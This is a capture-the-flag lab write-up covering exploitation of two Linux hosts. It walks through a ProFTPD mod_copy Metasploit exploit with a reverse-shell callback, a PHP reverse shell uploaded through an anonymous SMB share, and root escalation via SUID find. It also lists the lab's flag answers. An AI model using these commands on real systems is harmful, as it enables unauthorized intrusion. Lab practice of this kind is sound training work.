






# Host & Network Penetration Testing: Exploitation CTF 3

## Overview

This lab targeted two Linux machines. The assessment chained an unauthenticated FTP `mod_copy` exploit into a local-only service discovered through post-exploitation, then on the second host moved through anonymous SMB access, a web shell upload, and SUID binary abuse to escalate to root.

**Objectives:**

- Exploit a vulnerable service on `target1.ine.local` and retrieve the flag from the root directory
- Interact with a local-only network service on `target1.ine.local`, using a hint from Flag 1
- Exploit a misconfigured service on `target2.ine.local` to gain access and retrieve the flag from the root directory
- Escalate to root on `target2.ine.local` and read the flag from the restricted `/root` directory

All flags are in MD5 hash format.

---

## Target 1 — Enumeration

A full service scan was run against the first target:

```bash
db_nmap -sV -O -sC -p- target1.ine.local
```

**Results:**

```text
21/tcp open  ftp     ProFTPD 1.3.5
80/tcp open  http    Apache httpd 2.4.41 (Ubuntu)
```

The Apache instance was serving the default Ubuntu landing page, suggesting nothing of immediate interest on port 80. ProFTPD 1.3.5, on the other hand, is a version with a well-known Metasploit module worth checking.

---

## Flag 1 — ProFTPD `mod_copy` Remote Code Execution

A search inside Metasploit for the identified FTP version surfaced a relevant exploit:

```text
exploit/unix/ftp/proftpd_modcopy_exec
```

This module abuses ProFTPD's `mod_copy` feature, which allows authenticated (including anonymous) FTP sessions to instruct the server to copy files on the filesystem — including writing a payload directly into the web root for execution via Apache.

The module was configured and run:

```text
use exploit/unix/ftp/proftpd_modcopy_exec
set RHOSTS target1.ine.local
setg LHOST 192.125.223.2
set SITEPATH /var/www/html/
exploit
```

Before relying fully on the module, the underlying `mod_copy` behavior was sanity-checked manually by copying a benign file across the filesystem:
#
one.py exploit https://www.exploit-db.com/exploits/49908
#

```bash
python3 one.py 192.125.223.3 21 /var/www/html/index.html /tmp/test.html
```

This confirmed the copy primitive worked as expected. With that verified, the Metasploit exploit successfully returned a shell.

)


The first flag was retrieved from the root directory:

```text
Flag 1: 52941f6e3b86411b8991b8b93dfbc1ae
```

Notably, the exploitation output also surfaced a hint for later: the phrase **"letmein"**, flagged as a password to remember.

---

## Flag 2 — Pivoting to a Local-Only Service

With shell access established on Target 1, the next step was checking what other services were running, particularly any only bound to localhost and therefore invisible from the network scan:

```bash
netstat -antp
```

```text
tcp   0  0 127.0.0.11:38631   0.0.0.0:*   LISTEN
tcp   0  0 0.0.0.0:21         0.0.0.0:*   LISTEN
tcp   0  0 0.0.0.0:80         0.0.0.0:*   LISTEN
tcp   0  0 127.0.0.1:8888     0.0.0.0:*   LISTEN
```

A service listening on `127.0.0.1:8888` stood out immediately — it hadn't appeared in the original Nmap scan because it was bound only to loopback, reachable only from inside the box itself. Now that there was a shell on the host, it became accessible:

```bash
nc localhost 8888
```

The service prompted for a password. Using the hint recovered earlier:

```text
letmein
```

This granted access and returned the second flag:

```text
Flag 2: ff05a25a28dd49b39db912fed8b237a4
```


This is a useful reminder that local enumeration after gaining a shell can reveal services completely invisible to external scanning — and that hints dropped during exploitation are often meant to be used immediately afterward.

---

## Target 2 — Enumeration

A new workspace was created and a full scan run against the second target:

```bash
db_nmap -sV -sC -O target2.ine.local
```

**Results:**

```text
80/tcp  open  http        Apache httpd 2.4.41 (Ubuntu)
        |_http-title: Can you Pwn me?
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
```

The Nmap SMB scripts also returned some useful protocol details:

```text
smb2-security-mode:
  3:1:1:
  Message signing enabled but not required
```

Message signing being enabled but not enforced is a known weakness, and combined with an older Samba version (4.6.2), this service was clearly worth investigating further. A SearchSploit lookup was run against the Samba version to check for known vulnerabilities.



---

## Flag 3 — Anonymous SMB Access & Web Shell Upload

`enum4linux` was run to gather more detail on the SMB configuration and exposed accounts:

```bash
enum4linux -a 192.125.223.4
```

This returned the standard set of built-in Windows/Samba groups (Administrators, Users, Guests, Power Users, etc.) via SID enumeration, but more importantly, testing a null/anonymous session confirmed the share allowed unauthenticated access:

```text
[+] Server 192.125.223.4 allows sessions using username '', password ''
```

Connecting to a specific share confirmed write access as an effectively anonymous user:

```bash
smbclient //192.125.223.4/site-uploads -U nobody
```

Since the share was both world-accessible and, based on the web server title ("Can you Pwn me?"), almost certainly served by the same Apache instance on port 80, the natural next step was to drop a PHP reverse shell into it and trigger execution via HTTP.

A PHP reverse shell was copied locally and uploaded to the share:

```bash
cp /usr/share/webshells/php/php-reverse-shell.php shell.php
smbclient //192.125.223.4/site-uploads
smb: \> put shell.php
```

With the file in place, it was triggered by simply requesting it in a browser:

```text
http://target2.ine.local/site-uploads/shell.php
```

This returned a working shell on the target.



The third flag was retrieved from the root directory:

```text
Flag 3: FLAG3{57295e60977e4465aedfcb02909911bb}
```

---

## Flag 4 — Privilege Escalation via SUID `find`

With a low-privileged shell established, the next goal was escalating to root. The standard first move was checking for SUID binaries — programs that execute with the file owner's privileges (root, in this case) regardless of which user runs them:

```bash
find / -perm -4000 -type f 2>/dev/null
```

```text
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/find
/usr/bin/mount
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/su
/usr/bin/umount
```

Most of these are standard system binaries with no practical exploitation path without extra context (`su` needs a password, `passwd` only writes to `/etc/shadow` without spawning a shell, `mount` typically needs entries in `/etc/fstab`). The standout here was `/usr/bin/find` — it was SUID-root, which is unusual and immediately exploitable, since `find` supports an `-exec` flag that spawns arbitrary child processes.

```bash
/usr/bin/find /etc/passwd -exec /bin/bash -p \;
```

This worked because of how SUID and `find -exec` interact:

| Component | Behavior |
|---|---|
| `find` | Runs with real UID = the current user, but effective UID = root, due to the SUID bit |
| `-exec` | Spawns a child process |
| `/bin/bash -p` | The `-p` flag tells bash to preserve the elevated effective UID instead of dropping it back to the real UID on startup |

The result was a root shell. From there, the final flag was read directly from the restricted directory:

```text
Flag 4: FLAG4{76b671b448cf48a9a0d5012b3cbb13ef}
```


---

## Flags Captured

| Flag | Value |
|---|---|
| Flag 1 | `FLAG1{52941f6e3b86411b8991b8b93dfbc1ae}` |
| Flag 2 | `FLAG2{ff05a25a28dd49b39db912fed8b237a4}` |
| Flag 3 | `FLAG3{57295e60977e4465aedfcb02909911bb}` |
| Flag 4 | `FLAG4{76b671b448cf48a9a0d5012b3cbb13ef}` |

---

## Key Takeaways

- ProFTPD's `mod_copy` feature is a classic example of a "convenience" feature turning into a remote code execution primitive when it allows arbitrary file copies into a web-executable directory.
- Post-exploitation network enumeration (`netstat`) matters as much as the initial Nmap scan — services bound to `127.0.0.1` are invisible externally but often hold the next piece of the chain.
- Hints or passwords surfaced during one stage of exploitation (`letmein`) are frequently meant to be reused immediately on the next discovered service.
- Anonymous/null SMB sessions combined with a writable share and a co-located web server is a direct path to a web shell — write access plus web-accessible storage is effectively code execution.
- SUID binaries with built-in `-exec`-style functionality (`find`, `vim`, `less`, `awk`, etc.) are some of the most reliable privilege escalation vectors on misconfigured Linux hosts; checking GTFOBins-style behavior for any unusual SUID binary should be routine.

## Skills Practiced

- Service & Port Enumeration
- ProFTPD `mod_copy` Exploitation
- Metasploit Module Usage & Manual Verification
- Post-Exploitation Network Enumeration (`netstat`)
- Local Service Pivoting
- SMB Enumeration (`enum4linux`, `smbclient`)
- Anonymous/Null Session Abuse
- PHP Web Shell Deployment via SMB Upload
- Linux Privilege Escalation via SUID Binaries
- GTFOBins-Style Exploitation (`find -exec`)
# 
Happy hacking 